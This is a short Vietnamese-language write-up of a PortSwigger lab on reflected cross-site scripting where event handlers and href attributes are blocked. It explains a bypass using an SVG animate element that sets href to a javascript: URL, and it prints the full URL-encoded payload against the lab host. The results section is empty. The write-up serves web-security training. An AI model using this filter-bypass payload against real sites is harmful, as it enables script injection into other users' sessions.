

# Lab: Reflected XSS with event handlers and href attributes blocked

**Lab URL:** [PortSwigger Lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked)

## Mô tả

Bài Lab yêu cầu ta thực hiện Reflected XSS khi các event handlers và href attribute đã bị block. Bên cạnh đó, sử dụng vector để gọi alert.

## Khai thác

Do vậy, mình sẽ sử dụng [*svg*](https://developer.mozilla.org/en-US/docs/Web/SVG/Element/animate) tag để trigger alert vì nó có thẻ con là `animate` và trong `animate` có thuộc tính *attributeName*, *values* và mình có thể thêm href cũng như script vào tùy ý.

`Payload: https://ace01fe61f679bb0c0a0298b00bc0014.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%3C%2Ftext%3E%3C%2Fa%3E`

## Kết quả

